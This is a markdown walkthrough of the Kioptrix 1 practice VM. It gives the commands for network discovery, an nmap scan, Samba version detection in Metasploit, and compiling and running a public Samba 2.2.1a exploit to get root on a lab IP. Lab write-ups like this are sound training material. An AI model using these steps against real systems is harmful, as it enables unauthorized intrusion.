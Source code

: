 # Kioptrix 1 - Walkthrough

## Setting up 

[Tutorial that I used](https://medium.com/@obikag/how-to-get-kioptrix-working-on-virtualbox-an-oscp-story-c824baf83da1)

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.


Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
    
		* -A  DetectS OS and Services
    
```
nmap -sS -A <ip address>
```
![alt text](/screens/nmap.png)

We gonna set **port 139** as our target.
We see that the process running is **netbios-ssn - Samba** but no exact version is described.

After quick research I found a Metasploit scanner for Samba Version.
To access **Metasploit** in Kali Linux type:
```
msfconsole #to access Metasploit
use auxiliary/scanner/smb/smb_version #chosing the module
exploit #start exploit
```
![alt text](/screens/msfscan.png)


So it tells us that the Samba version is **2.2.1a**
Lets look for exploit!
Metasploit had some  exploits but somehow they failed for me.
Exploit-db came for the resque! [exploit-db](https://www.exploit-db.com/exploits/10)


We can download the exploit script from the **exploit-db**.
It comes as a .c file so we have to compile it first using **gcc(GNU Compiler Collections)**.
```
gcc <name of the C file> -o <name of the file compiled>
```
I called mine: **smbexploit**
To use it type: ./<name of file>
![alt text](/screens/smbexploit.png)

Console will display the options available.

Command format: ** ./<name of the file> <options> <target ip address> ** 
```
./smbexploit -c 192.168.8.106 -b 192.168.8.106 -b 0 192.168.8.106 -v 192.168.8.106
```
![alt text](/screens/root.png)

Got it! Root obtained!




